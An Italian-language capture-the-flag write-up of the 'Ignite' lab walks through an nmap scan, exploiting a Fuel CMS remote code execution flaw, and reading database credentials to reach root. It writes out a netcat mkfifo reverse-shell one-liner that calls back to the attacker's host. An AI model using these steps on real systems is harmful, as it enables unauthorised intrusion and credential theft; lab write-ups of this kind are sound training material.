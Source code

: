 # Ignite

____________

# Task 1 - Root it!

-  nmap -p- --open -sC -sV -sS -A -T 5 -Pn -oN scan_ignite.txt TARGET-IP

![Istantanea_2023-08-04_09-39-23](https://github.com/Manganaccio/Manganaccio/assets/137283468/3dfcba0c-7325-48c2-9bb6-936e798b53f2)

-  la scansione con nmap mostra che la porta 80 è aperta, pertanto possiamo navigare al sito web http://TARGET-IP

![Istantanea_2023-08-04_09-42-03](https://github.com/Manganaccio/Manganaccio/assets/137283468/39b93c47-ac65-42ea-9024-c7cb16d6b197)

-  il sito web mostra informazione molto interessanti relativamente al CMS e alla versione installata; scorrendo poi nel sito web si possono ottenere ulteriori informazioni inerenti le credenziali di default per l'accesso e la directory di login

![Istantanea_2023-08-04_09-41-01](https://github.com/Manganaccio/Manganaccio/assets/137283468/460823f9-641a-4bc8-b1bd-5ee575ee90c2)

-  attraverso una ricerca sulle eventuali vulnerabilità relative al CMS in questione (si può usare il comando _serachsploit fuel cms_ direttamente nel terminale o attraverso database come [exploit-db](https://www.exploit-db.com/)), si può notare che Fuel CMS è vulnerabile a RCE (Remote Code Execution)

![Istantanea_2023-08-04_15-01-45](https://github.com/Manganaccio/Manganaccio/assets/137283468/7ee282c6-a5d5-4d8e-a1af-e16508ed55e1)

-   con riferimento al file evidenziato nell'immagine sopra, una volta eseguito si può ottenere il controllo della shell attraverso l'esecuzione del comando "nc mkfifo": rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR-IP PORT >/tmp/f

![Istantanea_2023-08-04_10-05-20](https://github.com/Manganaccio/Manganaccio/assets/137283468/596c0041-7019-4f39-9a62-e9d8de2c68e3)

-   in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel comando "nc mkfifo")

![Istantanea_2023-08-04_10-05-46](https://github.com/Manganaccio/Manganaccio/assets/137283468/ba3e8548-abb6-4240-aac5-5af2a7c5ad07)

# User.txt

-  la prima flag si trova facilmente nella cartella /home/www-data

# Root.txt

-  per trovare la seconda flag sarà necessario fare una piccola scalata dei privilegi; ritornando nella pagina web si ha un'ulteriore informazione che si può sfruttare per ottenere l'accesso al profilo root, sarà necessario quindi leggere il file database.php

![Istantanea_2023-08-04_15-24-43](https://github.com/Manganaccio/Manganaccio/assets/137283468/bc99f199-2f2b-43d8-914b-0be848b4b228)

- i dati presenti (username e password) ci permetteranno di accedere al profilo root e leggere la flag root.txt

![Istantanea_2023-08-04_10-21-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/5064c3f6-b2f2-4268-b0b0-87795cd40025)

![Istantanea_2023-08-04_10-22-43](https://github.com/Manganaccio/Manganaccio/assets/137283468/5ff789e4-cacc-4c55-9064-1d71d1ee88ba)
